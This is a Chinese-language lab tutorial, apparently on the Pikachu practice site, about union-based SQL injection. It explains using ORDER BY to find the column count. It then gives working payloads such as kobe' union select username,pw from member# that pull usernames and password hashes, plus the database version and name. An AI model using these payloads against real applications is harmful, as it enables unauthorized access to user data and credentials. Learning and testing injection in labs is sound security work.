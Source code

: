 ---

# 基于 union 的信息获取

## union 联合查询

union 联合命令：

- 用于合并两个或多个 SELECT 语句的结果集，并返回合并后的结果集。

用法举例:

```sql
select username,password from user where id=1 union select 字段1,字段2 from 表名
select username,password from user where id=1 union select 命令1,命令2
```

**_注意联合命令的字段数命令数需要和主查询一致!_**
那么我们怎么知道主查询有多少字段数呢？

## order by 排序

使用**order by**方法，对查询结果进行排序，示例如下：

```sql
select id,email from member where username='kobe' order by 1;
```

该语句后面跟上`order by 1`，表示对**查询结果**按**1 字段**进行排序
**_如果我们写了`order by 3`，实际上查询结果只有 2 个字段，那么会报错！！_**
以字符型注入为例，我们输入`kobe' order by 3#`
![sql_orderby_1.png](image/sql_orderby_1.png)
报错信息为：

```sql
Unknown column '3' in 'order clause'
```

表示没有第三个字段，标明字段数`<3`
输入`kobe' order by 2#`
![sql_orderby_2.png](image/sql_orderby_2.png)
正常输出结果，表示有`>=2`个字段
`<3`,`>=2`,说明字段数为`2`
一个个试就能试出来了

## mysql 命令补充

```sql
Select version(); //取的数据库版本
Select database();//取得当前的数据库
Select user(); //取得当前登录的用户
```

## 总结

1. 通过`order by`方法知道主查询**字段数**

```sql
select id,email from member where username='kobe' order by 3;
```

2. 尝试`union`联合查询，看看能不能得到更多信息

```sql
#比如username、password、id、email、phone之类的同一表下其他信息
#需要通过information_schema拿到信息
select id,email from member where username='kobe' union select 字段1,字段2 from 表名
#数据库信息，比如version()、database()、user()
select id,email from member where username='kobe' union select 命令1,命令2
```

## 具体操作

以字符型注入为例，我们输入以下代码：

```sql
kobe' union select username,pw from member#
#返回了username和pw的md5值
```

![sql_union_1.png](image/sql_union_1.png)

```sql
kobe' union select version(),database()#
#返回了数据库版本号`5.7.26`和当前数据库名`root`
```

![sql_union_2.png](image/sql_union_2.png)
